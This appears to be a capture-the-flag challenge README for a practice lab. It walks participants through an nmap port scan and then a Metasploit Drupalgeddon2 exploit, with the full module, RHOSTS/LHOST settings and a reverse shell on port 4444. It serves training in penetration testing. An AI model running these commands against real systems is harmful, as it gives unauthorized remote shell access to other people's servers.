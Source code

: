 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

##### Nmap
Install nmap.

For Debian/Ubuntu:

`apt-get install nmap`
 
For RedHat/CentOS:

`rpm -vhU https://nmap.org/dist/nmap-7.80-1.x86_64.rpm`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports.
* `-PS`, `-PA`, `-PU` {PORT_NUMBERS}: Replace it with the ports to scan. TCP SYN/ACK or 
UDP discovery.
* `-sV`: Determine service and version info.
* `-O`: Determine OS info. 
* `-A`: Determine service/version and OS info.
* `-script` {SCRIPT_NAME}: Start the scan with the given script.
* `--script` {SCRIPT_LIST}: Start the scan with the given scripts.

For a detailed list of all parameters availible please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

##### Metasploit
If you have Docker installed you can simply run the metasploit container image. Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results, in this challenge look for Drupal exploits

`search drupal`

Select the Drupalgeddon2 exploit from the list

`use exploit/unix/webapp/drupal_drupalgeddon2`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`
`set RPORT <port>`
`set LHOST <remote ip of metasploit machine>`
`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote ip of metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

